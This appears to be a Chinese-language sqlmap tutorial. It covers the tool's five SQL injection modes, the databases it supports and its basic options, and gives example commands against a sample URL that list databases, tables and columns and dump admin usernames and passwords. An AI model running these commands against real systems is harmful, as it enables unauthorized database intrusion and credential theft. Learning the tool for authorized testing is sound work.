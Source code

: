 # sqlmap

sqlmap支持五种不同的注入模式：

1. 基于布尔的盲注，即可以根据返回页面判断条件真假的注入。
2. 基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。
3. 基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。
4. 联合查询注入，可以使用union的情况下的注入。
5. 堆查询注入，可以同时执行多条语句的执行时的注入。

### sqlmap支持的数据库有

MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase和SAP MaxDB

## 选项：

* –version 显示程序的版本号
* -h, –help 显示此帮助信息
* --h 显示高级帮助信息
* -v 输出内容详细级别：0-6（默认为1）

## 检测注入

小提示：

`--wizard 给初级用户的简单向导界面`

`--batch 跳过一些选项，自动选择`

### 基本格式

```text
sqlmap -u "http://www.vuln.cn/post.php?id=1"
默认使用level1检测全部数据库类型

sqlmap -u "http://www.vuln.cn/post.php?id=1" –dbms mysql –level 3
指定数据库类型为mysql，级别为3（共5级，级别越高，检测越全面)
```

### 跟随302跳转

当注入页面错误的时候，自动跳转到另一个页面的时候需要跟随302，  
当注入错误的时候，先报错再跳转的时候，不需要跟随302。  
目的就是：要追踪到错误信息。

## 注入成功后

### 获取数据库基本信息

```text
#查询有哪些数据库
sqlmap -u "http://www.vuln.cn/post.php?id=1" –dbms mysql –level 3 –dbs

#查询test数据库中有哪些表
sqlmap -u "http://www.vuln.cn/post.php?id=1" –dbms mysql –level 3 -D test –tables

#查询test数据库中admin表有哪些字段
sqlmap -u "http://www.vuln.cn/post.php?id=1" –dbms mysql –level 3 -D test -T admin –columns

#dump出字段username与password中的数据
sqlmap -u "http://www.vuln.cn/post.php?id=1" –dbms mysql –level 3 -D test -T admin -C “username,password” –dump
```

### 从数据库中搜索字段

```text
#在dedecms数据库中搜索字段admin或者password
sqlmap -r "c:\tools\request.txt" –dbms mysql -D dedecms –search -C admin,password
```

